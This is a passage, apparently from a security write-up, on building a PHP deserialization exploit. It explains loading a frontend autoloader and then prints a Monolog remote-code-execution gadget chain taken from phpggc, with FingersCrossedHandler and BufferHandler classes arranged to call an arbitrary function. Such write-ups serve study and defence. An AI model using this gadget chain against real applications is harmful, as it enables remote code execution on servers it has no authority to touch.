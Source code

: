 When this is deserialized it will require the frontend autoloader, giving us access to the required gadget classes.

Now, we need to make a payload that includes the frontend autoloader first, and then an RCE gadget. The easiest (and least error prone, I've found through experience (':  ) way is using a PHP script directly. We create two files, one being the gadgets directly from `phpggc` and the latter being a custom script to serialize our gadget.

`gadget.php` (Monolog/RCE6)

```php
<?php

namespace Monolog\Handler 
{


    # RCE gadget (phpggc) https://github.com/ambionics/phpggc/blob/3dd04666dc01c01d41d68f5419576ca6054ced9c/gadgetchains/Monolog/RCE/6/gadgets.php

    class FingersCrossedHandler {
        protected $passthruLevel;
        protected $buffer = array();
        protected $handler;
    
        public function __construct($param, $handler)
        {
            $this->passthruLevel = 0;
            $this->buffer = ['test' => [$param, 'level' => null]];
            $this->handler = $handler;
        }
    
    }

    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;

        function __construct($function)
        {
            $this->processors = ['current', $function];
        }
    }

}
 
```
